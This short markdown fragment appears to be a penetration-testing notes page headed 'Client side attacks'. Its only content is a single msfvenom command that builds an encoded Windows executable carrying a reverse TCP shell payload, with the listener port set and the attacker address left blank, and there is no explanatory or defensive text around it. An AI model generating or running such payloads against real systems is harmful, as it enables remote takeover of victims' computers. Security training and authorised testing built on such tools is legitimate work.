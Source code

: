 # Client side attacks

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST= LPORT=8990 -e x86/shikata_ga_nai -f exe -o out.exe
```
